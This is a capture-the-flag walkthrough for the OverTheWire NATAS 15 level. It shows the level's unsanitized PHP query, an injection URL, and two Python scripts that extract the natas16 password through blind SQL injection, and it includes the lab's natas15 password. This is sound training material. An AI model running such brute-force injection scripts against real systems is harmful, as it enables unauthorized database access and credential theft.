




## NATAS 15



NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.



Conveniently for us, natas16 is a valid username.



Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:
https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
```mysql
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
```

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
```mysql
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
```

but that's going to take a long time, and we all value our problem.  Instead, I wrote a python script to do it for me.

```python
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
```

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

```python
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
```


And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
